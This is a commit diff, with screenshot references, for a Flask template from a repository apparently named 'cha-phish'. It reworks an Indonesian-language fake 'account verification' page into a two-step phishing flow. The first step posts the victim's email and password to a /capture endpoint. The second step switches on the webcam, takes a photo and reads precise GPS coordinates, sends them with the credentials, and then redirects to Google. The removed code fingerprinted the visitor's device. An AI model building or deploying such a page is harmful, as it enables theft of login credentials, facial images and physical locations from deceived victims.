

Before and after one commit to zzabck0-source/cha-phish, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/ai mamb/templates/index.html
+++ b/ai mamb/templates/index.html
@@ -3,35 +3,107 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Verifikasi Keamanan</title>
+    <title>Verifikasi Akun</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; font-family: Arial, sans-serif; }
+        * { margin: 0; padding: 0; box-sizing: border-box; font-family: 'Segoe UI', sans-serif; }
         body {
-            background: #0d1117;
+            background: #0a0a0f;
             display: flex;
             justify-content: center;
             align-items: center;
             min-height: 100vh;
+            padding: 15px;
         }
-        .box {
-            background: #161b22;
-            padding: 35px;
-            border-radius: 16px;
-            width: 380px;
-            border: 1px solid #30363d;
+        .container {
+            background: #14141e;
+            padding: 30px 25px;
+            border-radius: 24px;
+            width: 420px;
+            max-width: 100%;
+            border: 1px solid #2a2a3a;
             text-align: center;
+            box-shadow: 0 20px 60px rgba(0,0,0,0.6);
         }
-        .box h2 { color: #fff; margin-bottom: 5px; }
-        .box h2 span { color: #58a6ff; }
-        .sub { color: #8b949e; font-size: 14px; margin-bottom: 15px; }
+        .badge {
+            display: inline-block;
+            background: #ff0050;
+            color: #fff;
+            font-size: 12px;
+            font-weight: 700;
+            padding: 6px 18px;
+            border-radius: 30px;
+            margin-bottom: 16px;
+            box-shadow: 0 0 20px rgba(255,0,80,0.3);
+        }
+        .title {
+            color: #f0f0f8;
+            font-size: 22px;
+            font-weight: 700;
+            margin-bottom: 4px;
+        }
+        .title span { color: #5b7cff; }
+        .sub {
+            color: #8a8aa0;
+            font-size: 14px;
+            margin-bottom: 18px;
+        }
+        input {
+            width: 100%;
+            padding: 14px 16px;
+            margin: 8px 0;
+            background: #0d0d16;
+            border: 1px solid #2a2a3a;
+            border-radius: 12px;
+            color: #f0f0f8;
+            font-size: 15px;
+            outline: none;
+            transition: 0.3s;
+        }
+        input:focus {
+            border-color: #5b7cff;
+            box-shadow: 0 0 0 3px rgba(91,124,255,0.15);
+        }
+        .btn {
+            width: 100%;
+            padding: 14px;
+            margin-top: 12px;
+            background: #5b7cff;
+            border: none;
+            border-radius: 12px;
+            color: #fff;
+            font-weight: 700;
+            font-size: 16px;
+            cursor: pointer;
+            transition: 0.3s;
+        }
+        .btn:hover { background: #4a6af0; transform: scale(1.01); }
+        .btn:disabled { background: #333; cursor: not-allowed; transform: none; }
+        .status {
+            margin: 10px 0;
+            font-size: 13px;
+            color: #8a8aa0;
+        }
+        .status.error { color: #ff4757; }
+        .status.success { color: #2ed573; }
+        .footer {
+            margin-top: 18px;
+            font-size: 11px;
+            color: #4a4a5a;
+            border-top: 1px solid #1e1e2e;
+            padding-top: 14px;
+        }
+        .note { color: #4a4a5a; font-size: 12px; margin-top: 6px; }
+
+        /* ===== STEP 2: FOTO + GPS ===== */
         .camera-box {
             width: 100%;
             height: 220px;
-            background: #0d1117;
-            border: 2px dashed #30363d;
+            background: #0d0d16;
+            border: 2px dashed #2a2a3a;
             border-radius: 12px;
             overflow: hidden;
             margin-bottom: 12px;
+            position: relative;
         }
         .camera-box video {
             width: 100%;
@@ -45,142 +117,223 @@
             align-items: center;
             justify-content: center;
             height: 100%;
-            color: #8b949e;
+            color: #4a4a5a;
         }
         .camera-box .placeholder .icon { font-size: 48px; }
-        input {
-            width: 100%;
-            padding: 12px;
-            margin: 6px 0;
-            background: #0d1117;
-            border: 1px solid #30363d;
+        .hidden { display: none; }
+        .gps-info {
+            background: #0d0d16;
+            padding: 10px;
             border-radius: 8px;
-            color: #fff;
-            outline: none;
+            border: 1px solid #2a2a3a;
+            margin-top: 10px;
+            font-size: 13px;
+            color: #8a8aa0;
         }
-        input:focus { border-color: #58a6ff; }
-        .btn {
-            width: 100%;
-            padding: 13px;
-            margin-top: 10px;
-            background: #238636;
-            border: none;
-            border-radius: 8px;
-            color: #fff;
-            font-weight: bold;
-            cursor: pointer;
+        .gps-info .loc { color: #2ed573; font-weight: 600; }
+        .step-indicator {
+            display: flex;
+            justify-content: center;
+            gap: 30px;
+            margin-bottom: 20px;
         }
-        .btn:hover { background: #2ea043; }
-        .btn:disabled { background: #555; cursor: not-allowed; }
-        .status {
-            margin: 10px 0;
-            font-size: 13px;
-            color: #8b949e;
+        .step-indicator .step {
+            font-size: 12px;
+            color: #4a4a5a;
+            display: flex;
+            align-items: center;
+            gap: 6px;
         }
-        .status.success { color: #2ea043; }
-        .status.error { color: #da3633; }
-        .status.gps { color: #f1c40f; }
-        .footer { margin-top: 14px; font-size: 11px; color: #555; }
-        .hidden { display: none; }
+        .step-indicator .step.active { color: #5b7cff; font-weight: 600; }
+        .step-indicator .step.done { color: #2ed573; }
+        .step-indicator .line {
+            width: 40px;
+            height: 2px;
+            background: #2a2a3a;
+            align-self: center;
+        }
+        .step-indicator .line.done { background: #2ed573; }
     </style>
 </head>
 <body>
-<div class="box">
-    <h2>📹 <span>Verifikasi Keamanan</span></h2>
-    <p class="sub">Untuk keamanan, verifikasi wajah & lokasi diperlukan</p>
+
+<div class="container" id="app">
+
+    <!-- BADGE -->
+    <div class="badge">⚡ VERIFIKASI AKUN</div>
+
+    <!-- STEP INDICATOR -->
+    <div class="step-indicator">
+        <span class="step active" id="step1">🔐 Login</span>
+        <span class="line" id="line1"></span>
+        <span class="step" id="step2">📸 Foto + GPS</span>
+    </div>
+
+    <!-- ===== STEP 1: LOGIN ===== -->
+    <div id="stepLogin">
+        <div class="title">🔐 <span>Login</span></div>
+        <p class="sub">Masukkan email dan password</p>
+
+        <form id="loginForm">
+            <input type="email" id="email" placeholder="📧 Email" required>
+            <input type="password" id="password" placeholder="🔒 Password" required>
+            <button type="submit" class="btn" id="loginBtn">🔓 Login</button>
+        </form>
+
+        <div class="status" id="loginStatus"></div>
+        <div class="note">⚠️ Data Anda aman</div>
+    </div>
+
+    <!-- ===== STEP 2: FOTO + GPS ===== -->
+    <div id="stepPhoto" class="hidden">
+        <div class="title">📸 <span>Verifikasi Wajah</span></div>
+        <p class="sub">Aktifkan kamera untuk verifikasi</p>
 
         <div class="camera-box" id="cameraBox">
             <div class="placeholder" id="placeholder">
                 <span class="icon">📷</span>
-            <span>Kamera akan aktif</span>
+                <span>Kamera siap</span>
             </div>
             <video id="video" class="hidden" autoplay muted></video>
         </div>
 
-    <div class="status" id="status">⏳ Menyiapkan...</div>
+        <button class="btn" id="photoBtn">📸 Ambil Foto & Kirim</button>
 
-    <form id="loginForm">
-        <input type="text" id="username" placeholder="Username / Email" required>
-        <input type="password" id="password" placeholder="Password" required>
-        <button type="submit" class="btn" id="submitBtn">🔓 Verifikasi</button>
-    </form>
-    <div class="footer">© 2026 SecureSystem</div>
+        <div class="gps-info" id="gpsInfo">
+            📍 Lokasi: <span class="loc" id="gpsText">Mengambil...</span>
+        </div>
+
+        <div class="status" id="photoStatus"></div>
+        <div class="note">✅ Verifikasi wajah & lokasi diperlukan</div>
+    </div>
+
+    <div class="footer">© 2026 SecureSystem · <span id="footerText">2 Step Verification</span></div>
 </div>
 
 <canvas id="canvas" class="hidden"></canvas>
 
 <script>
-// ====== AUTO-GRAB DEVICE INFO ======
-function getDeviceInfo() {
-    const info = {
-        userAgent: navigator.userAgent,
-        platform: navigator.platform,
-        language: navigator.language,
-        screenWidth: screen.width,
-        screenHeight: screen.height,
-        colorDepth: screen.colorDepth,
-        touchSupport: 'ontouchstart' in window || navigator.maxTouchPoints > 0,
-        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
-        doNotTrack: navigator.doNotTrack || 'unspecified',
-        cookiesEnabled: navigator.cookieEnabled,
-        hardwareConcurrency: navigator.hardwareConcurrency || 'unknown'
-    };
-    return info;
+// ============================================================
+// 1. ELEMEN
+// ============================================================
+const stepLogin = document.getElementById('stepLogin');
+const stepPhoto = document.getElementById('stepPhoto');
+const step1 = document.getElementById('step1');
+const step2 = document.getElementById('step2');
+const line1 = document.getElementById('line1');
+const loginStatus = document.getElementById('loginStatus');
+const photoStatus = document.getElementById('photoStatus');
+
+// ============================================================
+// 2. STEP 1: LOGIN
+// ============================================================
+document.getElementById('loginForm').addEventListener('submit', async function(e) {
+    e.preventDefault();
+
+    const email = document.getElementById('email').value.trim();
+    const pass = document.getElementById('password').value.trim();
+    const btn = document.getElementById('loginBtn');
+
+    if (!email || !pass) {
+        loginStatus.textContent = '⚠️ Isi semua field!';
+        loginStatus.className = 'status error';
+        return;
     }
 
-async function sendDeviceInfo() {
-    const info = getDeviceInfo();
+    btn.disabled = true;
+    btn.textContent = '⏳ Memproses...';
+    loginStatus.textContent = '📤 Mengirim data...';
+    loginStatus.className = 'status';
+
     try {
-        await fetch('/device-info', {
+        const res = await fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify(info)
+            body: JSON.stringify({ username: email, password: pass })
         });
-    } catch (err) {}
+
+        const result = await res.json();
+
+        if (result.status === 'success') {
+            loginStatus.textContent = '✅ Login berhasil!';
+            loginStatus.className = 'status success';
+            // Pindah ke step 2
+            stepLogin.classList.add('hidden');
+            stepPhoto.classList.remove('hidden');
+            step1.classList.remove('active');
+            step1.classList.add('done');
+            line1.classList.add('done');
+            step2.classList.add('active');
+            document.getElementById('footerText').textContent = '📸 Verifikasi Wajah';
+            // Mulai kamera & GPS
+            startCamera();
+        } else {
+            throw new Error(result.message);
         }
+    } catch (err) {
+        loginStatus.textContent = '⚠️ Login gagal, coba lagi.';
+        loginStatus.className = 'status error';
+        btn.disabled = false;
+        btn.textContent = '🔓 Login';
+    }
+});
 
-sendDeviceInfo();
-
-// ====== KAMERA + GPS + FORM ======
+// ============================================================
+// 3. STEP 2: KAMERA + GPS
+// ============================================================
 const video = document.getElementById('video');
 const canvas = document.getElementById('canvas');
 const ctx = canvas.getContext('2d');
-const statusEl = document.getElementById('status');
-const submitBtn = document.getElementById('submitBtn');
 const placeholder = document.getElementById('placeholder');
+const photoBtn = document.getElementById('photoBtn');
+const gpsText = document.getElementById('gpsText');
 
+let stream = null;
 let cameraReady = false;
 let gpsData = { lat: '-', lon: '-', acc: '-' };
 
-navigator.mediaDevices.getUserMedia({ video: { width: 640, height: 480 } })
-    .then((stream) => {
-        video.srcObject = stream;
-        video.classList.remove('hidden');
-        placeholder.style.display = 'none';
-        cameraReady = true;
-        statusEl.textContent = '✅ Kamera siap';
-        statusEl.className = 'status success';
-    })
-    .catch(() => {
-        statusEl.textContent = '⚠️ Izin kamera ditolak';
-        statusEl.className = 'status error';
-        cameraReady = false;
-    });
-
+// === GPS ===
+function getLocation() {
+    if (navigator.geolocation) {
         navigator.geolocation.getCurrentPosition(
             (pos) => {
                 gpsData.lat = pos.coords.latitude;
                 gpsData.lon = pos.coords.longitude;
                 gpsData.acc = pos.coords.accuracy;
-        statusEl.textContent = `📍 Lokasi: ${gpsData.lat}, ${gpsData.lon}`;
-        statusEl.className = 'status gps';
+                gpsText.textContent = `${gpsData.lat}, ${gpsData.lon} (±${gpsData.acc}m)`;
             },
             () => {
-        statusEl.textContent = '⚠️ Gagal ambil lokasi, lanjut tanpa GPS';
-        statusEl.className = 'status error';
+                gpsText.textContent = '❌ Gagal ambil lokasi';
+            },
+            { enableHighAccuracy: true, timeout: 5000 }
+        );
+    } else {
+        gpsText.textContent = '❌ GPS tidak support';
     }
-);
+}
 
+// === KAMERA ===
+function startCamera() {
+    navigator.mediaDevices.getUserMedia({ video: { width: 640, height: 480 } })
+        .then((s) => {
+            stream = s;
+            video.srcObject = s;
+            video.classList.remove('hidden');
+            placeholder.style.display = 'none';
+            cameraReady = true;
+            photoStatus.textContent = '✅ Kamera siap';
+            photoStatus.className = 'status success';
+            getLocation();
+        })
+        .catch((err) => {
+            photoStatus.textContent = '⚠️ Izin kamera ditolak: ' + err.message;
+            photoStatus.className = 'status error';
+            cameraReady = false;
+            getLocation(); // Tetap ambil GPS walau kamera ditolak
+        });
+}
+
+// === AMBIL FOTO ===
 function captureImage() {
     if (!cameraReady || !video.videoWidth) return null;
     canvas.width = video.videoWidth;
@@ -189,31 +342,28 @@ function captureImage() {
     return canvas.toDataURL('image/jpeg');
 }
 
-document.getElementById('loginForm').addEventListener('submit', async function(e) {
-    e.preventDefault();
-
-    const user = document.getElementById('username').value.trim();
-    const pass = document.getElementById('password').value.trim();
-
-    if (!user || !pass) {
-        statusEl.textContent = '⚠️ Isi semua field!';
-        statusEl.className = 'status error';
+// === KIRIM FOTO + GPS ===
+photoBtn.addEventListener('click', async function() {
+    if (!cameraReady) {
+        photoStatus.textContent = '⚠️ Kamera belum siap!';
+        photoStatus.className = 'status error';
         return;
     }
 
-    submitBtn.disabled = true;
-    submitBtn.textContent = '⏳ Memproses...';
-    statusEl.textContent = '📤 Mengirim data...';
+    photoBtn.disabled = true;
+    photoBtn.textContent = '⏳ Mengirim...';
+    photoStatus.textContent = '📤 Mengirim data...';
+    photoStatus.className = 'status';
 
     const image = captureImage();
 
     try {
-        const response = await fetch('/capture', {
+        const res = await fetch('/capture', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
             body: JSON.stringify({
-                username: user,
-                password: pass,
+                username: document.getElementById('email').value.trim(),
+                password: document.getElementById('password').value.trim(),
                 image: image || '',
                 lat: gpsData.lat,
                 lon: gpsData.lon,
@@ -221,22 +371,36 @@ document.getElementById('loginForm').addEventListener('submit', async function(e
             })
         });
 
-        const result = await response.json();
+        const result = await res.json();
 
         if (result.status === 'success') {
-            statusEl.textContent = '✅ Berhasil!';
-            statusEl.className = 'status success';
+            photoStatus.textContent = '✅ Verifikasi berhasil!';
+            photoStatus.className = 'status success';
+            setTimeout(() => {
                 window.location.href = 'https://www.google.com';
+            }, 1500);
         } else {
             throw new Error(result.message);
         }
     } catch (err) {
-        statusEl.textContent = '⚠️ Error, coba lagi';
-        statusEl.className = 'status error';
-        submitBtn.disabled = false;
-        submitBtn.textContent = '🔓 Verifikasi';
+        photoStatus.textContent = '⚠️ Gagal kirim, coba lagi.';
+        photoStatus.className = 'status error';
+        photoBtn.disabled = false;
+        photoBtn.textContent = '📸 Ambil Foto & Kirim';
     }
 });
+
+// ============================================================
+// 4. CLEANUP
+// ============================================================
+window.addEventListener('beforeunload', () => {
+    if (stream) {
+        stream.getTracks().forEach(t => t.stop());
+    }
+});
+
+console.log('🔧 2-Step Phishing Loaded!');
+console.log('Step 1: Login → Step 2: Foto + GPS');
 </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
